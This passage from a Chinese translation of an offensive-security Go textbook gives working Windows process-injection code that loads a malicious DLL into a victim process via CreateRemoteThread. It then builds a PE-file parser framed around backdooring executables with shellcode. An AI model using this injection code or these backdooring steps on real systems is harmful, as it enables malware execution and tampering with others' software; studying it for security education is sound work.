        ModKernel32.Handle(), // HMODULE hModule ❸
        uintptr(unsafe.Pointer(llibBytePtr))) // LPCSTR lpProcName ❹
    if &lladdr == nil {
        return errors.Wrap(lastErr, "[!] ERROR : Can't get process address.")
    }
    i.LoadLibAddr = lladdr
    fmt.Printf("[+] Kernel32.Dll memory address: %v\n", unsafe.Pointer(ModKernel32.Handle()))
    fmt.Printf("[+] Loader memory address: %v\n", unsafe.Pointer(i.LoadLibAddr))
    return nil
}
```

*示例 12-10：通过使用* GetProcessAddress() *Windows 函数获取* LoadLibraryA() *内存地址*（*[/ch-12/procInjector/winsys/inject.go](https://github.com/blackhat-go/bhg/blob/master/ch-12/procInjector/winsys/inject.go)*）

我们使用 `GetProcessAddress()` Windows 函数来识别调用 `CreateRemoteThread()` 函数所需的 `LoadLibraryA()` 基本内存地址。`ProcGetProcAddress.Call()` ❷ 函数接受两个参数：第一个是包含我们感兴趣的导出函数（`LoadLibraryA()`）的 `Kernel32.dll` ❸ 的句柄，第二个是从字面字符串 `"LoadLibraryA"` ❶ 返回的 `byte` 切片的基地址指针位置 ❹。

#### 使用 CreateRemoteThread Windows API 执行恶意 DLL

我们将使用 `CreateRemoteThread()` Windows 函数，在远程进程的虚拟内存区域中创建一个线程。如果该区域恰好是 `LoadLibraryA()`，我们现在就有办法加载并执行包含我们恶意 DLL 文件路径的内存区域。让我们回顾一下清单 12-11 中的代码。

```
func CreateRemoteThread(i *Inject) error {
    var threadId uint32 = 0
    var dwCreationFlags uint32 = 0
    remoteThread, _, lastErr := ProcCreateRemoteThread.Call❶(
        i.RemoteProcHandle, // HANDLE hProcess ❷
        uintptr(nullRef), // LPSECURITY_ATTRIBUTES lpThreadAttributes
        uintptr(nullRef), // SIZE_T dwStackSize
        i.LoadLibAddr, // LPTHREAD_START_ROUTINE lpStartAddress ❸
        i.Lpaddr, // LPVOID lpParameter ❹
        uintptr(dwCreationFlags), // DWORD dwCreationFlags
        uintptr(unsafe.Pointer(&threadId)), // LPDWORD lpThreadId
    )
    if remoteThread == 0 {
        return errors.Wrap(lastErr, "[!] ERROR : Can't Create Remote Thread.")
    }
    i.RThread = remoteThread
    fmt.Printf("[+] Thread identifier created: %v\n", unsafe.Pointer(&threadId))
    fmt.Printf("[+] Thread handle created: %v\n", unsafe.Pointer(i.RThread))
    return nil
}
```

*清单 12-11：使用* CreateRemoteThread() *Windows 函数执行进程注入 (*[/ch-12 /procInjector/winsys/inject.go](https://github.com/blackhat-go/bhg/blob/master/ch-12/procInjector/winsys/inject.go)*)*

`ProcCreateRemoteThread.Call()` ❶ 函数总共有七个参数，尽管我们在这个示例中只使用了其中的三个。相关的参数是包含受害者进程句柄的 `RemoteProcHandle` ❷，包含线程要调用的启动例程（在本例中是 `LoadLibraryA()`）的 `LoadLibAddr` ❸，以及最后，指向包含有效负载位置的虚拟分配内存的指针 ❹。

#### 使用 WaitforSingleObject Windows API 验证注入

我们将使用 `WaitforSingleObject()` Windows 函数来识别何时某个特定对象处于已信号状态。这与进程注入相关，因为我们希望等待线程执行完成，以避免过早退出。让我们简要讨论一下在清单 12-12 中的函数定义。

```
func WaitForSingleObject(i *Inject) error {
    var dwMilliseconds uint32 = INFINITE
    var dwExitCode uint32
    rWaitValue, _, lastErr := ProcWaitForSingleObject.Call( ❶
        i.RThread, // HANDLE hHandle
        uintptr(dwMilliseconds)) // DWORD  dwMilliseconds
    if rWaitValue != 0 {
        return errors.Wrap(lastErr, "[!] ERROR : Error returning thread wait state.")
    }
    success, _, lastErr := ProcGetExitCodeThread.Call( ❷
 i.RThread, // HANDLE  hThread
        uintptr(unsafe.Pointer(&dwExitCode))) // LPDWORD lpExitCode
    if success == 0 {
        return errors.Wrap(lastErr, "[!] ERROR : Error returning thread exit code.")
    }
    closed, _, lastErr := ProcCloseHandle.Call(i.RThread) // HANDLE hObject ❸
    if closed == 0 {
        return errors.Wrap(lastErr, "[!] ERROR : Error closing thread handle.")
    }
    return nil
}
```

*清单 12-12：使用* WaitforSingleObject() *Windows 函数确保线程执行成功 (*[/ch-12/procInjector/winsys/inject.go](https://github.com/blackhat-go/bhg/blob/master/ch-12/procInjector/winsys/inject.go)*)*

这个代码块中发生了三个值得注意的事件。首先，`ProcWaitForSingleObject.Call()` 系统调用 ❶ 被传入在清单 12-11 中返回的线程句柄。`INFINITE` 的等待值作为第二个参数传入，声明事件的过期时间为无限。

接下来，`ProcGetExitCodeThread.Call()` ❷ 判断线程是否成功终止。如果成功，应该已经调用了 `LoadLibraryA` 函数，并且我们的 DLL 已经执行。最后，正如我们几乎对任何句柄进行负责任的清理一样，我们调用了 `ProcCloseHandle.Call()` 系统调用 ❸，确保线程对象句柄能够被干净地关闭。

#### 使用 VirtualFreeEx Windows API 进行清理

我们使用 `VirtualFreeEx()` Windows 函数释放或取消分配我们在清单 12-8 中通过 `VirtualAllocEx()` 分配的虚拟内存。这对于负责任地清理内存是必要的，因为已初始化的内存区域可能相当大，考虑到注入到远程进程中的代码整体大小，如整个 DLL。让我们看看这段代码块（清单 12-13）。

```
func VirtualFreeEx(i *Inject) error {
    var dwFreeType uint32 = MEM_RELEASE
    var size uint32 = 0 //Size must be 0 to MEM_RELEASE all of the region
    rFreeValue, _, lastErr := ProcVirtualFreeEx.Call❶(
        i.RemoteProcHandle, // HANDLE hProcess ❷
        i.Lpaddr, // LPVOID lpAddress ❸
        uintptr(size), // SIZE_T dwSize ❹
        uintptr(dwFreeType)) // DWORD dwFreeType ❺
    if rFreeValue == 0 {
        return errors.Wrap(lastErr, "[!] ERROR : Error freeing process memory.")
    }
    fmt.Println("[+] Success: Freed memory region")
    return nil
}
```

*清单 12-13：使用* VirtualFreeEx() *Windows 函数释放虚拟内存 (*[/ch-12/procInjector /winsys/inject.go](https://github.com/blackhat-go/bhg/blob/master/ch-12/procInjector/winsys/inject.go)*)*

`ProcVirtualFreeEx.Call()` 函数 ❶ 有四个参数。第一个是与要释放内存的进程相关联的远程进程句柄 ❷。下一个参数是指向要释放的内存位置的指针 ❸。

请注意，一个名为 `size` ❹ 的变量被赋值为 `0`。这是必要的，因为根据 Windows API 规范定义，这样做是为了将整个内存区域释放回可回收的状态。最后，我们传递 `MEM_RELEASE` 操作 ❺ 来完全释放进程内存（以及我们关于进程注入的讨论）。

#### 附加练习

像本书中的许多其他章节一样，本章如果你在过程中编写代码并进行实验，将提供最大的价值。因此，我们以几个挑战或扩展已涵盖内容的可能性结束这一部分：

+   创建代码注入时最重要的方面之一是保持一个足够强大的工具链，以便检查和调试进程执行。下载并安装 Process Hacker 和 Process Monitor 工具。然后，使用 Process Hacker 定位 `Kernel32` 和 `LoadLibrary` 的内存地址。同时，定位进程句柄并查看其完整性级别以及固有权限。现在，将你的代码注入到同一受害者进程中并定位线程。

+   你可以将进程注入示例扩展为更加复杂的形式。例如，不是从磁盘文件路径加载有效载荷，可以使用 MsfVenom 或 Cobalt Strike 生成 shellcode 并将其直接加载到进程内存中。这将需要你修改 `VirtualAllocEx` 和 `LoadLibrary`。

+   创建一个 DLL 并将其全部内容加载到内存中。这与前面的练习类似：不同之处在于，你将加载一个完整的 DLL，而不是 shellcode。使用 Process Monitor 设置路径过滤器、进程过滤器或两者，然后观察系统 DLL 加载顺序。是什么阻止了 DLL 加载顺序劫持？

+   你可以使用一个名为 Frida 的项目 (*[`www.frida.re/`](https://www.frida.re/)*)，将 Google Chrome V8 JavaScript 引擎注入受害者进程。它在移动安全从业者和开发人员中有着广泛的用户群体：你可以使用它进行运行时分析、进程内调试和插桩。你还可以在其他操作系统上使用 Frida，例如 Windows。编写你自己的 Go 代码，将 Frida 注入到受害者进程中，并使用 Frida 在同一进程内运行 JavaScript。熟悉 Frida 的工作方式需要一些研究，但我们保证这绝对值得。

### 可移植可执行文件

有时我们需要一个载体来传递我们的恶意代码。这可以是一个新创建的可执行文件（通过现有代码中的漏洞进行传递），或者是系统上已经存在的修改版可执行文件。例如，如果我们想修改一个现有的可执行文件，我们需要理解 Windows *便携式可执行文件（PE）*的二进制数据格式，因为它规定了如何构建可执行文件以及可执行文件的功能。在本节中，我们将介绍 PE 数据结构和 Go 的 PE 包，并构建一个 PE 二进制解析器，您可以使用它来浏览 PE 二进制文件的结构。

#### 理解 PE 文件格式

首先，让我们讨论 PE 数据结构格式。Windows PE 文件格式是一种数据结构，通常表现为可执行文件、目标代码或 DLL。PE 格式还维护了所有在初始操作系统加载 PE 二进制文件时使用的资源的引用，包括用于按序号维护导出函数的导出地址表（EAT），用于按名称维护导出函数的导出名称表，导入地址表（IAT）、导入名称表、线程局部存储和资源管理等其他结构。你可以在[*https://docs.microsoft.com/en-us/windows/win32/debug/pe-format/*](https://docs.microsoft.com/en-us/windows/win32/debug/pe-format/)上找到 PE 格式规范。图 12-6 展示了 PE 数据结构：Windows 二进制文件的可视化表示。



*图 12-6：Windows PE 文件格式*

在构建 PE 解析器时，我们将逐一检查这些自上而下的各个部分。

#### 编写 PE 解析器

在接下来的各个部分中，我们将编写分析 Windows 二进制可执行文件中每个 PE 部分所需的单独解析器组件。作为示例，我们将使用与 Telegram 消息应用程序二进制文件相关的 PE 格式，该二进制文件位于[*https://telegram.org*](https://telegram.org)，因为这个应用程序比经常被过度使用的 Putty SSH 二进制示例更不简单，而且它是以 PE 格式分发的。你几乎可以使用任何 Windows 二进制可执行文件，我们鼓励你去调查其他的二进制文件。

##### 加载 PE 二进制文件和文件 I/O

在清单 12-14 中，我们将首先使用 Go 的 PE 包准备 Telegram 二进制文件以供进一步解析。你可以将我们在编写此解析器时创建的所有代码放在一个文件中的`main()`函数内。

```
import (
 ❶ "debug/pe"
    "encoding/binary"
    "fmt"
    "io"
    "log"
    "os"
)

func main() {
 ❷ f, err := os.Open("Telegram.exe")
    check(err)
 ❸ pefile, err := pe.NewFile(f)
    check(err)
    defer f.Close()
    defer pefile.Close()
```

*清单 12-14：PE 二进制文件的文件 I/O（*[/ch-12/peParser/main.go](https://github.com/blackhat-go/bhg/blob/master/ch-12/peParser/main.go)*)*

在审查每个 PE 结构组件之前，我们需要通过使用 Go 的 PE 包来设置初始导入❶和文件 I/O。我们使用`os.Open()`❷和`pe.NewFile()`❸分别创建文件句柄和 PE 文件对象。这是必要的，因为我们打算通过使用`Reader`对象（如文件或二进制读取器）来解析 PE 文件内容。

##### 解析 DOS 头和 DOS 存根

顶层向下的 PE 数据结构的第一部分，如图 12-6 所示，从 DOS 头开始。以下的唯一值在任何基于 Windows DOS 的可执行二进制文件中总是存在：`0x4D 0x5A`（或 ASCII 中的`MZ`），它恰当地声明了该文件为 Windows 可执行文件。所有 PE 文件中普遍存在的另一个值位于偏移量`0x3C`。该偏移量的值指向另一个偏移量，包含 PE 文件的签名：恰当地是`0x50 0x45 0x00 0x00`（或 ASCII 中的`PE`）。

紧随其后的头部是 DOS 存根，它总是提供`This program cannot be run in DOS mode`的十六进制值；这种情况的例外发生在编译器的`/STUB`链接器选项提供任意字符串值时。如果你使用你喜欢的十六进制编辑器打开 Telegram 应用程序，它应该类似于图 12-7。所有这些值都是存在的。



*图 12-7：典型的 PE 二进制格式文件头*

到目前为止，我们已经描述了 DOS 头和存根，并通过十六进制编辑器查看了十六进制表示。现在，让我们通过示例 12-15 中的 Go 代码来看一下如何解析这些相同的值。

```
    dosHeader := make([]byte, 96)
    sizeOffset := make([]byte, 4)

    // Dec to Ascii (searching for MZ)
    _, err = f.Read(dosHeader) ❶
    check(err)
    fmt.Println("[-----DOS Header / Stub-----]")
    fmt.Printf("[+] Magic Value: %s%s\n", string(dosHeader[0]), string(dosHeader[1])) ❷

    // Validate PE+0+0 (Valid PE format)
    pe_sig_offset := int64(binary.LittleEndian.Uint32(dosHeader[0x3c:])) ❸
    f.ReadAt(sizeOffset[:], pe_sig_offset) ❹
    fmt.Println("[-----Signature Header-----]")
    fmt.Printf("[+] LFANEW Value: %s\n", string(sizeOffset))

/* OUTPUT
[-----DOS Header / Stub-----]
[+] Magic Value: MZ
[-----Signature Header-----]
[+] LFANEW Value: PE
*/
```

*示例 12-15：解析 DOS 头和存根值 (*[/ch-12/peParser/main.go](https://github.com/blackhat-go/bhg/blob/master/ch-12/peParser/main.go)*)*

从文件的开始处，我们使用 Go 的`file` `Reader`❶实例向后读取 96 字节，以确认初始二进制签名❷。回想一下，前两个字节提供 ASCII 值`MZ`。PE 包提供了方便的对象，帮助将 PE 数据结构转换为更易于使用的形式。然而，它仍然需要手动二进制读取器和按位功能来实现。我们执行了对偏移量值❸的二进制读取，该值在`0x3c`处引用，然后准确地读取了 4 个字节❹，由`0x50 0x45`（`PE`）后跟 2 个`0x00`字节组成。

##### 解析 COFF 文件头

继续深入 PE 文件结构，紧接着 DOS 存根的是 COFF 文件头。让我们通过使用示例 12-16 中定义的代码来解析 COFF 文件头，然后讨论其中一些更有趣的属性。

```
  // Create the reader and read COFF Header
❶ sr := io.NewSectionReader(f, 0, 1<<63-1)
❷ _, err := sr.Seek(pe_sig_offset+4, os.SEEK_SET)
  check(err)
❸ binary.Read(sr, binary.LittleEndian, &pefile.FileHeader)
```

*示例 12-16：解析 COFF 文件头 (*[/ch-12/peParser/main.go](https://github.com/blackhat-go/bhg/blob/master/ch-12/peParser/main.go)*)*

我们创建了一个新的`SectionReader` ❶，它从文件的开头（位置 0）开始，读取到`int64`的最大值。然后，`sr.Seek()`函数 ❷将位置重置，以便立即开始读取，紧接着 PE 签名的偏移量和值（回想一下字面值`PE + 0x00 + 0x00`）。最后，我们执行二进制读取 ❸，将字节转储到`pefile`对象的`FileHeader`结构体中。回想一下，我们之前在调用`pe.Newfile()`时已经创建了`pefile`。

Go 文档中定义了`type FileHeader`，该结构体在 Listing 12-17 中有定义。这个结构体与微软文档中描述的 PE COFF 文件头格式非常匹配（定义于[*https://docs.microsoft.com/en-us/windows/win32/debug/pe-format#coff-file-header-object-and-image/*](https://docs.microsoft.com/en-us/windows/win32/debug/pe-format#coff-file-header-object-and-image/)）。

```
type FileHeader struct {
        Machine              uint16
        NumberOfSections     uint16
        TimeDateStamp        uint32
        PointerToSymbolTable uint32
        NumberOfSymbols      uint32
        SizeOfOptionalHeader uint16
        Characteristics      uint16
}
```

*Listing 12-17: Go PE 包的本地 PE 文件头结构*

在这个结构体中，除了`Machine`值（换句话说，就是 PE 目标系统架构）外，唯一需要注意的项是`NumberOfSections`属性。这个属性包含了在 Section Table 中定义的 sections 的数量，Section Table 紧跟在文件头之后。如果你打算通过添加新 section 来给 PE 文件植入后门，你需要更新`NumberOfSections`的值。然而，其他一些策略可能不需要更新这个值，例如，搜索其他可执行的 sections（如`CODE`、`.text`等），以寻找连续的未使用`0x00`或`0xCC`值（这种方法用于定位可以植入 shellcode 的内存区域），因为 sections 的数量不会改变。

最后，你可以使用以下打印语句输出一些更有趣的 COFF 文件头值（Listing 12-18）。

```
    // Print File Header
    fmt.Println("[-----COFF File Header-----]")
    fmt.Printf("[+] Machine Architecture: %#x\n", pefile.FileHeader.Machine)
    fmt.Printf("[+] Number of Sections: %#x\n", pefile.FileHeader.NumberOfSections)
    fmt.Printf("[+] Size of Optional Header: %#x\n", pefile.FileHeader.SizeOfOptionalHeader)
    // Print section names
    fmt.Println("[-----Section Offsets-----]")
    fmt.Printf("[+] Number of Sections Field Offset: %#x\n", pe_sig_offset+6) ❶
    // this is the end of the Signature header (0x7c) + coff (20bytes) + oh32 (224bytes)
    fmt.Printf("[+] Section Table Offset: %#x\n", pe_sig_offset+0xF8)

 /* OUTPUT
[-----COFF File Header-----]
[+] Machine Architecture: 0x14c ❷
[+] Number of Sections: 0x8 ❸
[+] Size of Optional Header: 0xe0 ❹
[-----Section Offsets-----]
[+] Number of Sections Field Offset: 0x15e ❺
[+] Section Table Offset: 0x250 ❻
*/
```

*Listing 12-18: 将 COFF 文件头值写入终端输出 (*[/ch-12/peParser/main.go](https://github.com/blackhat-go/bhg/blob/master/ch-12/peParser/main.go)*)*

你可以通过计算 PE 签名的偏移量 + 4 字节 + 2 字节来定位`NumberOfSections`的值——换句话说，就是加上 6 字节。在我们的代码中，我们已经定义了`pe_sig_offset`，所以我们只需要在这个值上加上 6 字节 ❶。我们将在检查 Section Table 结构时更详细地讨论 sections。

生成的输出描述了`Machine Architecture` ❷值为`0x14c`：一个`IMAGE_FILE_MACHINE_I386`，如[*https://docs.microsoft.com/en-us/windows/win32/debug/pe-format#machine-types*](https://docs.microsoft.com/en-us/windows/win32/debug/pe-format#machine-types)中详细说明的那样。节的数量❸是`0x8`，意味着在节表中有八个条目。可选头（接下来会讨论）具有可变长度，取决于体系结构：该值为`0xe0`（十进制为 224），对应 32 位系统❹。最后两个节可以视为更方便的输出。具体来说，`Sections Field Offset` ❺提供了节的数量的偏移量，而`Section Table Offset` ❻则提供了节表位置的偏移量。如果添加 shellcode，这两个偏移量值需要进行修改。

##### 解析可选头

PE 文件结构中的下一个头是*可选头*。一个可执行的二进制镜像将具有一个可选头，为加载器提供重要数据，加载器将可执行文件加载到虚拟内存中。这个头部包含了大量数据，因此我们只会介绍其中几个项目，以帮助你熟悉如何浏览这个结构。

首先，我们需要根据架构执行相关字节长度的二进制读取，如示例 12-19 中所述。如果你正在编写更为全面的代码，你会希望检查整个过程中使用的架构（例如，`x86`与`x86_64`），以便使用适当的 PE 数据结构。

```
  // Get size of OptionalHeader
❶ var sizeofOptionalHeader32 = uint16(binary.Size(pe.OptionalHeader32{}))
❷ var sizeofOptionalHeader64 = uint16(binary.Size(pe.OptionalHeader64{}))
❸ var oh32 pe.OptionalHeader32
❹ var oh64 pe.OptionalHeader64

  // Read OptionalHeader
  switch pefile.FileHeader.SizeOfOptionalHeader {
  case sizeofOptionalHeader32:
   ❺ binary.Read(sr, binary.LittleEndian, &oh32)
  case sizeofOptionalHeader64:
      binary.Read(sr, binary.LittleEndian, &oh64)
  }
```

*示例 12-19：读取可选头字节 (*[/ch-12/peParser/main.go](https://github.com/blackhat-go/bhg/blob/master/ch-12/peParser/main.go)*)*

在这个代码块中，我们初始化了两个变量，`sizeOfOptionalHeader32` ❶和`sizeOfOptionalHeader64` ❷，分别为 224 字节和 240 字节。这是一个`x86`二进制文件，因此我们将在代码中使用前者变量。紧接着变量声明的是`pe.OptionalHeader32` ❸和`pe.OptionalHeader64` ❹接口的初始化，它们将包含`OptionalHeader`数据。最后，我们执行二进制读取❺，并将其转换为相关的数据结构：基于 32 位二进制的`oh32`。

让我们描述一些可选头中更值得注意的项目。相关的打印语句和后续输出可以在示例 12-20 中找到。

```
    // Print Optional Header
    fmt.Println("[-----Optional Header-----]")
    fmt.Printf("[+] Entry Point: %#x\n", oh32.AddressOfEntryPoint)
    fmt.Printf("[+] ImageBase: %#x\n", oh32.ImageBase)
    fmt.Printf("[+] Size of Image: %#x\n", oh32.SizeOfImage)
    fmt.Printf("[+] Sections Alignment: %#x\n", oh32.SectionAlignment)
    fmt.Printf("[+] File Alignment: %#x\n", oh32.FileAlignment)
    fmt.Printf("[+] Characteristics: %#x\n", pefile.FileHeader.Characteristics)
    fmt.Printf("[+] Size of Headers: %#x\n", oh32.SizeOfHeaders)
    fmt.Printf("[+] Checksum: %#x\n", oh32.CheckSum)
    fmt.Printf("[+] Machine: %#x\n", pefile.FileHeader.Machine)
    fmt.Printf("[+] Subsystem: %#x\n", oh32.Subsystem)
    fmt.Printf("[+] DLLCharacteristics: %#x\n", oh32.DllCharacteristics)
/* OUTPUT
[-----Optional Header-----]
[+] Entry Point: 0x169e682 ❶
[+] ImageBase: 0x400000 ❷
[+] Size of Image: 0x3172000 ❸
[+] Sections Alignment: 0x1000 ❹
[+] File Alignment: 0x200 ❺
[+] Characteristics: 0x102
[+] Size of Headers: 0x400
[+] Checksum: 0x2e41078
[+] Machine: 0x14c
[+] Subsystem: 0x2
[+] DLLCharacteristics: 0x8140
*/
```

*示例 12-20：将可选头值写入终端输出 (*[/ch-12/peParser/main.go](https://github.com/blackhat-go/bhg/blob/master/ch-12/peParser/main.go)*)*

假设目标是通过后门进入 PE 文件，你需要知道`ImageBase` ❷和`Entry Point` ❶才能劫持并跳转到 shellcode 的位置，或者跳转到由`Section Table`条目数量定义的新部分。`ImageBase`是加载到内存中后图像的第一个字节的地址，而`Entry Point`是相对于`ImageBase`的可执行代码地址。`Size of Image` ❸是图像加载到内存时的实际大小。该值需要调整以适应任何图像大小的增加，如果你添加了一个包含 shellcode 的新部分，可能会发生这种情况。

`Sections Alignment` ❹将在部分加载到内存时提供字节对齐：`0x1000`是一个相当标准的值。`File Alignment` ❺提供原始磁盘上部分的字节对齐：`0x200 (512K)`也是一个常见的值。如果你打算手动执行这些操作，你需要修改这些值，并且必须使用十六进制编辑器和调试器。

可选头部包含多个条目。我们建议你查看文档[*https://docs.microsoft.com/en-us/windows/win32/debug/pe-format#optional-header-windows-specific-fields-image-only*](https://docs.microsoft.com/en-us/windows/win32/debug/pe-format#optional-header-windows-specific-fields-image-only)，以全面了解每个条目。

##### 解析数据目录

在运行时，Windows 可执行文件必须知道重要信息，例如如何使用链接的 DLL，或者如何允许其他应用程序进程使用可执行文件所提供的资源。该二进制文件还需要管理细粒度的数据，例如线程存储。这是数据目录的主要功能。

*数据目录*是可选头部的最后 128 字节，专门涉及二进制镜像。我们使用它来维护一个包含每个目录的偏移地址和数据大小的引用表。在*WINNT.H*头文件中定义了恰好 16 个目录条目，这是一个核心的 Windows 头文件，用于定义各种数据类型和常量，供整个 Windows 操作系统使用。

请注意，并非所有目录都在使用中，因为有些是微软保留的或未实现的。有关数据目录的完整列表及其预定用途的详细信息，可以参考[*https://docs.microsoft.com/en-us/windows/win32/debug/pe-format#optional-header-data-directories-image-only*](https://docs.microsoft.com/en-us/windows/win32/debug/pe-format#optional-header-data-directories-image-only)。再次提醒，许多信息与每个单独的目录相关，因此我们建议你花时间真正研究并熟悉它们的结构。

让我们通过使用列表 12-21 中的代码，探索数据目录中的几个目录项。

```
    // Print Data Directory
    fmt.Println("[-----Data Directory-----]")
    var winnt_datadirs = []string{ ❶
        "IMAGE_DIRECTORY_ENTRY_EXPORT",
        "IMAGE_DIRECTORY_ENTRY_IMPORT",
        "IMAGE_DIRECTORY_ENTRY_RESOURCE",
        "IMAGE_DIRECTORY_ENTRY_EXCEPTION",
        "IMAGE_DIRECTORY_ENTRY_SECURITY",
        "IMAGE_DIRECTORY_ENTRY_BASERELOC",
        "IMAGE_DIRECTORY_ENTRY_DEBUG",
        "IMAGE_DIRECTORY_ENTRY_COPYRIGHT",
        "IMAGE_DIRECTORY_ENTRY_GLOBALPTR",
        "IMAGE_DIRECTORY_ENTRY_TLS",
        "IMAGE_DIRECTORY_ENTRY_LOAD_CONFIG",
        "IMAGE_DIRECTORY_ENTRY_BOUND_IMPORT",
        "IMAGE_DIRECTORY_ENTRY_IAT",
        "IMAGE_DIRECTORY_ENTRY_DELAY_IMPORT",
        "IMAGE_DIRECTORY_ENTRY_COM_DESCRIPTOR",
        "IMAGE_NUMBEROF_DIRECTORY_ENTRIES",
    }
   for idx, directory := range oh32.DataDirectory { ❷
        fmt.Printf("[!] Data Directory: %s\n", winnt_datadirs[idx])
        fmt.Printf("[+] Image Virtual Address: %#x\n", directory.VirtualAddress)
        fmt.Printf("[+] Image Size: %#x\n", directory.Size)
    }
/* OUTPUT
[-----Data Directory-----]
[!] Data Directory: IMAGE_DIRECTORY_ENTRY_EXPORT ❸
[+] Image Virtual Address: 0x2a7b6b0 ❹
[+] Image Size: 0x116c ❺
[!] Data Directory: IMAGE_DIRECTORY_ENTRY_IMPORT ❻
 [+] Image Virtual Address: 0x2a7c81c
 [+] Image Size: 0x12c
--snip--
*/
```

*列表 12-21：解析数据目录中的地址偏移和大小 (*[/ch-12/peParser/main.go](https://github.com/blackhat-go/bhg/blob/master/ch-12/peParser/main.go)*)*

数据目录列表 ❶ 是由微软静态定义的，这意味着每个目录的名称将保持一致的顺序。因此，它们被视为常量。我们将使用一个切片变量`winnt_datadirs`来存储单个目录项，以便我们能够根据索引位置匹配名称。具体来说，Go PE 包将数据目录实现为结构体对象，因此我们需要遍历每个条目，以提取每个目录项及其相应的地址偏移量和大小属性。`for`循环是基于 0 索引的，因此我们只需输出每个切片条目与其索引位置 ❷ 相对应的内容。

显示到标准输出的目录项是`IMAGE_DIRECTORY_ENTRY_EXPORT` ❸（即 EAT）和`IMAGE_DIRECTORY_ENTRY_IMPORT` ❻（即 IAT）。这两个目录分别维护一个关于运行中的 Windows 可执行文件的导出和导入函数的表格。进一步查看`IMAGE_DIRECTORY_ENTRY_EXPORT`，你将看到包含实际表格数据偏移量的虚拟地址 ❹，以及包含数据的大小 ❺。

##### 解析段表

*段表*，PE 文件中的最后一个字节结构，紧随可选头之后。它包含 Windows 可执行二进制文件中每个相关段的详细信息，例如可执行代码和初始化数据的偏移位置。条目数量与 COFF 文件头中定义的`NumberOfSections`相匹配。你可以在 PE 签名偏移量 + `0xF8`的位置找到段表。让我们在十六进制编辑器中查看这个段（图 12-8）。



*图 12-8：使用十六进制编辑器观察到的段表*

这个特定的段表以`.text`开始，但根据二进制文件的编译器，它可能以`CODE`段开始。`.text`（或`CODE`）段包含可执行代码，而下一个段`.rodata`包含只读常量数据。`.rdata`段包含资源数据，`.data`段包含初始化数据。每个段的最小长度为 40 字节。

你可以在 COFF 文件头中访问段表。你也可以使用列表 12-22 中的代码单独访问每个段。

```
 s := pefile.Section(".text")
    fmt.Printf("%v", *s)
/* Output
{{.text 25509328 4096 25509376 1024 0 0 0 0 1610612768} [] 0xc0000643c0 0xc0000643c0}
*/
```

*列表 12-22：从段表解析特定段 (*[/ch-12/peParser/main.go](https://github.com/blackhat-go/bhg/blob/master/ch-12/peParser/main.go)*)*

另一种选择是遍历整个段表，正如列表 12-23 所示。

```
    fmt.Println("[-----Section Table-----]")
    for _, section := range pefile.Sections { ❶
        fmt.Println("[+] --------------------")
        fmt.Printf("[+] Section Name: %s\n", section.Name)
        fmt.Printf("[+] Section Characteristics: %#x\n", section.Characteristics)
        fmt.Printf("[+] Section Virtual Size: %#x\n", section.VirtualSize)
        fmt.Printf("[+] Section Virtual Offset: %#x\n", section.VirtualAddress)
        fmt.Printf("[+] Section Raw Size: %#x\n", section.Size)
        fmt.Printf("[+] Section Raw Offset to Data: %#x\n", section.Offset)
        fmt.Printf("[+] Section Append Offset (Next Section): %#x\n", section.Offset+section.Size)
    }

/* OUTPUT
[-----Section Table-----]
[+] --------------------
[+] Section Name: .text ❷
[+] Section Characteristics: 0x60000020 ❸
[+] Section Virtual Size: 0x1853dd0 ❹
[+] Section Virtual Offset: 0x1000 ❺
[+] Section Raw Size: 0x1853e00 ❻
[+] Section Raw Offset to Data: 0x400 ❼
[+] Section Append Offset (Next Section): 0x1854200 ❽
[+] --------------------
[+] Section Name: .rodata
[+] Section Characteristics: 0x60000020
[+] Section Virtual Size: 0x1b00
[+] Section Virtual Offset: 0x1855000
[+] Section Raw Size: 0x1c00
[+] Section Raw Offset to Data: 0x1854200
[+] Section Append Offset (Next Section): 0x1855e00
--snip--
*/
```

*列表 12-23：从节表中解析所有节 (*[/ch-12/peParser/main.go](https://github.com/blackhat-go/bhg/blob/master/ch-12/peParser/main.go)*)*

在这里，我们正在遍历节表 ❶ 中的所有节，并将 `name` ❷、`virtual size` ❹、`virtual address` ❺、`raw size` ❻ 和 `raw offset` ❼ 写入标准输出。此外，我们还计算下一个 40 字节的偏移地址 ❽，以防我们想要附加一个新的节。`characteristics` 值 ❸ 描述了该节作为二进制文件的一部分的行为方式。例如，`.text` 节提供了值 0x60000020。参考 *[`docs.microsoft.com/en-us/windows/win32/debug/pe-format#section-flags`](https://docs.microsoft.com/en-us/windows/win32/debug/pe-format#section-flags)* (表 12-2) 中的相关 `Section Flags` 数据，我们可以看到由三个独立的属性构成该值。

**表 12-2：** 节标志的特性

| **标志** | **值** | **描述** |
| --- | --- | --- |
| `IMAGE_SCN_CNT_CODE` | 0x00000020 | 该节包含可执行代码。 |
| `IMAGE_SCN_MEM_EXECUTE` | 0x20000000 | 该节可以作为代码执行。 |
| `IMAGE_SCN_MEM_READ` | 0x40000000 | 该节可以被读取。 |

第一个值 0x00000020 (`IMAGE_SCN_CNT_CODE`) 表示该节包含可执行代码。第二个值 0x20000000 (`IMAGE_SCN_MEM_EXECUTE`) 表示该节可以作为代码执行。最后，第三个值 0x40000000 (`IMAGE_SCN_MEM_READ`) 允许该节被读取。因此，将这些值加在一起得到 0x60000020。如果你要添加一个新的节，记住你需要更新所有这些属性及其相应的值。

这就结束了我们对 PE 文件数据结构的讨论。虽然这只是一个简短的概述，每个节本身都可以成为一章。然而，它应该足以让你利用 Go 作为导航任意数据结构的工具。PE 数据结构非常复杂，值得花时间和精力熟悉其所有组成部分。

#### 额外练习

利用你刚刚学到的 PE 文件数据结构的知识，并在此基础上进行扩展。这里有一些额外的想法，可以帮助你加深理解，同时也为你提供了一个探索更多 Go PE 包的机会：

+   获取各种 Windows 二进制文件，并使用十六进制编辑器和调试器来探索不同的偏移值。识别不同二进制文件之间的差异，例如它们的节数。使用你在本章中构建的解析器来探索和验证你手动观察到的内容。

+   探索 PE 文件结构的新领域，如 EAT 和 IAT。现在，重新构建解析器以支持 DLL 导航。

+   向现有的 PE 文件添加一个新部分，以包含你的崭新 shellcode。更新整个部分以包含适当数量的节、入口点以及原始和虚拟值。重复此过程，但这次不要添加新部分，而是使用现有部分并创建一个代码洞。

+   我们没有讨论的一个话题是如何处理已被代码压缩的 PE 文件，无论是使用常见的压缩工具，如 UPX，还是使用更为冷门的压缩工具。找到一个被压缩的二进制文件，确定它是如何压缩的以及使用了什么压缩工具，然后研究适当的解压技巧。

### 在 Go 中使用 C

